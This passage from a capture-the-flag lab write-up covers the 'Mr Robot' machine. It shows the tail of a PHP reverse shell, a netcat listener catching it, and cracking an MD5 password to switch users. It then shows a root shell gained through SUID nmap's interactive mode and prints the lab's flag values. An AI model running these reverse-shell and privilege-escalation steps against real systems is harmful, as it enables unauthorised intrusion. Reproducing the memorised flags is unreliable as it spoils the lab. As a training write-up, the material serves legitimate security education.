fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
if (!$daemon) {
print "$string\n";
}
}
?>
When we paste this code and click update file we get our reverse shell as user daemon. When we go to the home page we see there is a user named robot. In robot directory there is password.raw-md5 and our second flag key-2-of-3.txt . We cant read key-2-of-3.txt. But we can read password.raw-md5 . Inside of it there is md5 encoded passsword of user robot. When we decode it in https://md5hashing.net/hash/md5/c3fcd3d76192e4007dfb496cca67e13b we see password is abcdefghijklmnopqrstuvwxyz . When we login with this password we are in as user robot:
┌─[root@parrot]─[/home/parrot]
└──╼ #nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.51.16] from (UNKNOWN) [10.10.74.164] 50436
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
10:01:26 up 5 min, 0 users, load average: 0.02, 0.14, 0.08
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/$ cd /home/robot
cd /home/robot
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root root 4096 Nov 13 2015 .
drwxr-xr-x 3 root root 4096 Nov 13 2015 ..
-r-------- 1 robot robot 33 Nov 13 2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13 2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@linux:~$
After login as user robot we can read key-2-of-3.txt:
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
After that we use this command to see which files works with root privileges:
find / -perm -u=s -type f 2>/dev/null
And then we see there is something interesting. Nmap runs with root privileges:
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
For to get a root shell with nmap we go to the https://gtfobins.github.io/gtfobins/nmap/ and then we use this commands from the site to get a root shell:

robot@linux:~$ nmap --interactive
nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
We see it worked. We got a root shell. So we make final moves to finish this room:
#cd /root/
cd /root/
# ls -la
ls -la
total 32
drwx------ 3 root root 4096 Nov 13 2015 .
drwxr-xr-x 22 root root 4096 Sep 16 2015 ..
-rw------- 1 root root 4058 Nov 14 2015 .bash_history
-rw-r--r-- 1 root root 3274 Sep 16 2015 .bashrc
drwx------ 2 root root 4096 Nov 13 2015 .cache
-rw-r--r-- 1 root root 0 Nov 13 2015 firstboot_done
-r-------- 1 root root 33 Nov 13 2015 key-3-of-3.txt
-rw-r--r-- 1 root root 140 Feb 20 2014 .profile
-rw------- 1 root root 1024 Sep 16 2015 .rnd
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
And done, we got our final flag. Thanks for reading!